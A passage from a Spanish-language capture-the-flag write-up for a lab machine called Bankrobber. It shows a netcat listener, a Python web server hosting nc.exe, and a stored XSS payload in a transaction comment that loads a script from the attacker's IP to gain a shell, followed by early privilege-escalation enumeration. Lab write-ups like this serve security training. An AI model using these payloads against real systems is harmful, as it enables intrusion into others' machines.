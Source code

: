 1. Nos ponemos en escucha por el puerto 443

    ```bash
    rlwrap nc -nlvp 443
    ```

1. Preparamos el nc.exe y creamos un servidor web con python

    ```bash
    locate nc.exe
    cp /usr/share/sqlninja/apps/nc.exe .
    python3 -m http.server 80
    ```

1. Lanzamos una transaccion

    ```bash
    Amount: 1
    ID of Addressee: 1
    Comment to him/her: <script src="http://10.10.17.51/pwned.js"></script>
    ```

Hemos ganado accesso a la maquina victima como el usuario cortin y podemos visualizar la flag.

```bash
whoami
bankrobber\cortin

type C:\Users\cortin\Desktop\user.txt
```
## Privilege Escalation {-}

### Rootear la maquina {-}

```bash
whoami /priv
```

No tenemos privilegios interesantes como el **SeImpersonatePrivilege**, el **SeLoadPrivilege** o el **SeBackupPrivilege**.
Teniendo este privilegio, podriamos hacer una copia (backup) de seguridad de elemento del systema como el **NTDS** que nos permitirian
recuperar los hashes de los usuarios del systema, entre ellos el usuario Administrator.

```bash
cd C:\Users\Administrator
cd C:\
netstat -nat
```

Aqui vemos un ejecutable llamado 
```bash
 bankv2.exe 
```
. En este caso no lo vamos a analyzar. El **netstat** nos muestra un puerto **910** que no hemos visto
con nmap.
